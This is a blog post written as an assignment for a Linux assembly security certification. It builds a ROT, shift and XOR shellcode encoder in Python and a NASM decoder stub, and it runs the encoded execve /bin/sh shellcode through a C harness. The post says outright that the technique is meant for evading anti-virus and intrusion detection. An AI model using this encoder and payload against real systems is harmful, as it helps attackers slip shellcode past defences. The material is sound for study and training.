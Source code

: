 Introduction
------------
According to English dictionary, encode is converting something, such as a body of information from one system of communications to another; especially: to convert a message into code. This blog post will combine three basic encoding operations (more on that later) to encode sample shellcode and then decode/execute it to demonstrate the concept.

Encoder
-------
In this section, we’ll create 3-phase encoder that takes one byte of given shellcode at a time, mangle it and then produce an encoded word (2 bytes). The following will describe what each phase will do. Phase I (ROT-N), in this phase we add number N to shellcode byte. Phase II (Shift-N), in this phase we shift `stdout` from phase one to left by N. Phase III (XOR-N), here we just XOR `stdou`t from phase two to get the final encoded word. Before we start working on the encoder, let’s write shellcode that spawn shell to test with.

```nasm
global _start			

section .text

_start:
    ;
    ; execve() code block
    ;
    xor eax,eax       ; initiliaze EAX
    push eax          ; push null terminator
    push 0x68732f2f   ; push /bin//sh
    push 0x6e69622f
    xchg ebx,esp      ; save stack pointer to EBX
    mov al,0xb        ; __NR_execve 11
    int 0x80          ; ping kernel!
```

Let’s compile `execve()` code block and then dump shellcode.

```sh
ihack4falafel@ubuntu:~$ nasm -f elf32 -o sh.o sh.nasm 
ihack4falafel@ubuntu:~$ ld -z execstack -o sh sh.o
ihack4falafel@ubuntu:~$ objdump -d ./sh|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xdc\xb0\x0b\xcd\x80"
ihack4falafel@ubuntu:~$ 
```

We’ll create python script that takes ROT, Shift, and XOR as user input and print original and encoded shellcode, please note you still need to update the shellcode inside the script to your liking. For this post, we’ll use the one created earlier.  It’s worth noting that the script shift operation number can only be anything between 1 and 8 bits due to `encoded_shellcode` size (word) in the decoder. Also, we’ve added XOR input value to the end of the encoded shellcode as terminator, so if XOR operation in the decoder results in zero that means hey stop decoding.

```python
#!/usr/bin/python
#---------------------------------------------------------------------------------------------#
# Script        = Encoder.py                                                                  #
# SLAE-ID       = SLAE-1115                                                                   #
# Description   = [ROT-N + SHL-N + XOR-N] Encoder                                             #
# Date          = 1/19/2018                                                                   #
# Author        = @ihack4falafel                                                              #
# Usage         = python Encoder.py <ROT number> <number of bits to shift> <XOR number>       #
#---------------------------------------------------------------------------------------------#

import sys

# Colors 
#---------------#---------#
W  = '\033[0m'  # White   #
P  = '\033[35m' # Purple  #
Y  = '\033[33m' # Yellow  #
#---------------#---------#

# Check ROT, SHL, and XOR input, otherwise print usage, example, and important notes!
if len(sys.argv) < 4:
  print Y+ "Usage               :" + P+  " python Encoder.py <ROT number> <number of bits to shift> <XOR number>  " +W
  print Y+ "Example             :" + P+  " python Encoder.py 13 1 1337                                            " +W
  print Y+ "Notes               :" + P+  " 1) Make sure to update Decoder.nasm with input values.                 " +W
  print    "                     " + P+  " 2) Due to encoded_shellcode size (word) in Decoder.nasm, shift operatio" +W
  print    "                     " + P+  "    n is limited to <1-8> bits. Feel free to upgrade size to DW to allow" +W
  print    "                     " + P+  "    up to 16-bits shift operation.                                      " +W
  print    "                     " + P+  " 3) Encoder.py currently include /bin/sh shellcode as proof of concept. " +W
  print    "                     " + P+  "    Make sure to change it to your desired shellcode.                   " +W
  sys.exit(0)

ROT     = int(sys.argv[1])
nbits   = int(sys.argv[2])
XOR     = int(sys.argv[3])

# initial values   
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xdc\xb0\x0b\xcd\x80")           # paste your shellcode here
XOR_HEX = hex(XOR)                                                                                     # Encoded shellcode terminator     
encoded_shellcode  = "" 
original_shellcode = ""

# Orginal shellcode formatted
for x in bytearray(shellcode):
  original_shellcode += '0x'
  original_shellcode += '%02x, ' %x

# [ROT-N + SHL-N + XOR-N] encoded shellcode formatted   
for y in bytearray(shellcode):  
  byte = (y + ROT)%256                                                                                  #|-->ROT-N               
  byte = byte << nbits                                                                                  #########|-->SHL-N
  byte = byte ^ XOR                                                                                     #################|-->XOR-N	                                                                                  
  encoded_shellcode += '0x'
  encoded_shellcode += '%02x, ' %byte

# print original and encoded shellcode
print Y+ "Original Shellcode: " + P+ original_shellcode              +W
print Y+ "Encoded Shellcode : " + P+ encoded_shellcode  + Y+ XOR_HEX +W
```

Generate encoded shellcode.

```sh
ihack4falafel@ubuntu:~$ python Encoder.py 13 1 1337
Original Shellcode: 0x31, 0xc0, 0x50, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x87, 0xdc, 0xb0, 0x0b, 0xcd, 0x80, 
Encoded Shellcode : 0x545, 0x4a3, 0x583, 0x5d3, 0x541, 0x541, 0x439, 0x5d3, 0x5d3, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x411, 0x4eb, 0x443, 0x509, 0x48d, 0x423, 0x539
ihack4falafel@ubuntu:~$
```

Decoder
-------
Now comes the decoding part, let’s write code that basically takes encoded shellcode produced earlier , decode it in reverse order and then execute.

```nasm
global _start

section .text

_start:
    ;
    ; [ROT-N + SHL-N + XOR-N] encoded execve() code block
    ;
    jmp short call_decoder       ; jump to call_decoder to save encoded_shellcode pointer to ESI
	
decoder:

    pop esi                      ; store encoded_shellcode pointer in ESI
    push esi                     ; push encoded_shellcode pointer to stack for later execution
    mov edi, esi                 ; move encoded_shellcode pointer to EDI

decode:
    ;
    ; note: 1) Make sure ROT, SHR, and XOR here match your encoder.py input.
    ;       2) Hence we're limited by the size of encoded_shellcode (word),
    ;          SHR is limited to <1-8> bits. Feel free to upgrade size to DW 
    ;          to allow up to 16-bits shift if need be.
    ;
    mov ax, [esi]                ; move current word from encoded_shellcode to AX
    xor ax, 0x539                ; XOR encoded_shellcode with 1337, one word at a time  
    jz decoded_shellcode         ; if zero jump to decoded_shellcode
    shr ax, 1                    ; shift encoded_shellcode to right by one bit, one word at a time	
    sub ax, 13                   ; substract 13 from encoded_shellcode, one word at a time
    mov [edi], al                ; move decoded byte to EDI	
    inc esi                      ; point to the next encoded_shellcode word
    inc esi
    inc edi                      ; point to the next decoded_shellcode byte
    jmp short decode             ; jump to decode and repeat the decoding process for the next word!

decoded_shellcode:
    call [esp]                   ; execute decoded_shellcode

call_decoder:
    call decoder
    encoded_shellcode: dw 0x545, 0x4a3, 0x583, 0x5d3, 0x541, 0x541, 0x439, 0x5d3, 0x5d3, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x411, 0x4eb, 0x443, 0x509, 0x48d, 0x423, 0x539
```

Compile and dump shellcode.

```sh
ihack4falafel@ubuntu:~# nasm -f elf32 -o Decoder.o Decoder.nasm 
ihack4falafel@ubuntu:~# ld -z execstack -o Decoder Decoder.o
ihack4falafel@ubuntu:~# objdump -d ./Decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x1e\x5e\x56\x89\xf7\x66\x8b\x06\x66\x35\x39\x05\x74\x0e\x66\xd1\xe8\x66\x83\xe8\x0d\x88\x07\x46\x46\x47\xeb\xe9\xff\x14\x24\xe8\xdd\xff\xff\xff\x45\x05\xa3\x04\x83\x05\xd3\x05\x41\x05\x41\x05\x39\x04\xd3\x05\xd3\x05\x41\x05\xe7\x05\xd5\x05\xcf\x05\x11\x04\xeb\x04\x43\x04\x09\x05\x8d\x04\x23\x04\x39\x05"
ihack4falafel@ubuntu:~#
```

Add it to final exploit.

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x1e\x5e\x56\x89\xf7\x66\x8b\x06\x66\x35\x39\x05\x74\x0e\x66\xd1\xe8\x66\x83\xe8\x0d\x88\x07\x46\x46\x47\xeb\xe9\xff\x14\x24\xe8\xdd\xff\xff\xff\x45\x05\xa3\x04\x83\x05\xd3\x05\x41\x05\x41\x05\x39\x04\xd3\x05\xd3\x05\x41\x05\xe7\x05\xd5\x05\xcf\x05\x11\x04\xeb\x04\x43\x04\x09\x05\x8d\x04\x23\x04\x39\x05";

void main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```

Demo time


[![Encoder/Decoder Demo](https://github.com/ihack4falafel/ihack4falafel.github.io/blob/master/assets/images/chmod.png)](https://player.vimeo.com/video/252202488?dnt=1&app_id=122963 "Click to Watch!")

Closing Thoughts
----------------
I believe learning shellcode encoding is essential to exploit development, in order to evade modern anti-viruses and/or intrusion detection/prevention systems. Please note all of the code in this post were tested on Ubuntu 12.04.5 LTS. Feel free to contact me for questions via twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1115

Github Repo: [https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%204](https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%204)
